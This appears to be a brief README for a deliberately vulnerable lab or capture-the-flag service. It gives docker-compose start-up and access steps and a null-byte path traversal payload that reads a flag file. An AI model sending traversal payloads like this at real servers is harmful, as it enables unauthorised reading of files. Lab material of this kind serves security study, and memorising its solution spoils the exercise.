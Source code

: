 ## Start

```
docker-compose up -d
```

## Access

```
http://your-ip:9999
```

## Payload

```
.%00%00./%00.%00%00./user/flag
```